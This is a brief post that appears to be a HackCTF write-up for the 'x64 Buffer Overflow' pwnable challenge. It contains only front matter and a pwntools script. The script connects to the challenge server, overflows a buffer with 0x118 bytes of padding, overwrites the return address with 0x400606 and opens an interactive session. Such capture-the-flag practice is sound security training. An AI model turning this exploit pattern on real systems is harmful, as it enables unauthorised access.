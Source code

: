 ```yaml
---
title: "[HackCTF] x64 Buffer Overflow"
date: 2020-07-09
ctf: HackCTF
tag: [pwnable]
layout: post
---
```


{% highlight python %}
from pwn import *
context.log_level="debug"
p = remote("ctf.j0n9hyun.xyz", 3004)

payload = "a"*0x118
payload+= p64(0x400606)

p.sendline(payload)

p.interactive()
{% endhighlight %}
